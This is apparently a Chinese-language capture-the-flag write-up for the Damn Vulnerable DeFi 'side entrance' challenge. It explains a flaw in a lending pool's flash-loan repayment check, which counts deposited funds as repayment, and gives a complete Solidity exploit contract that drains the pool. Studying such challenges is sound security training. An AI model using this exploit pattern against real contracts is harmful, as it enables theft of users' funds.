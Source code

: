 # Damn Vulnerable DeFi v4 - side entrance

- https://www.damnvulnerabledefi.xyz/challenges/side-entrance/
- source code in https://github.com/wiasliaw/wiasliaw-ctf

## check condition

清空 pool 裡面的資金並轉移到 recovery：

```solidity
assertEq(address(pool).balance, 0, "Pool still has ETH");
assertEq(
    recovery.balance,
    ETHER_IN_POOL,
    "Not enough ETH in recovery account"
);
```

## break

有問題的地方在於 flashloan 檢查是「整個合約的餘額」，沒有考慮到 `deposit` 進入的資金也會被計算進去：

```solidity
function deposit() external payable {
    unchecked {
        balances[msg.sender] += msg.value;
    }
    emit Deposit(msg.sender, msg.value);
}

function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    if (address(this).balance < balanceBefore) {
        revert RepayFailed();
    }
}
```

## solution

先呼叫 falshloan，在 flashloan 中呼叫 `deposit` 回去 pool，接著就可以透過 `withdraw` 將全部的資金轉出：

```solidity
contract Trigger is IFlashLoanEtherReceiver {
    SideEntranceLenderPool internal pool;

    constructor(SideEntranceLenderPool pool_) {
        pool = pool_;
    }

    function execute() public payable {
        pool.deposit{value: msg.value}();
    }

    function flashloan(uint256 amount_) public {
        pool.flashLoan(amount_);
    }

    function withdrawAndSend(address recovery) public {
        pool.withdraw();
        payable(recovery).call{value: address(this).balance}("");
    }

    receive() external payable {}
}
```
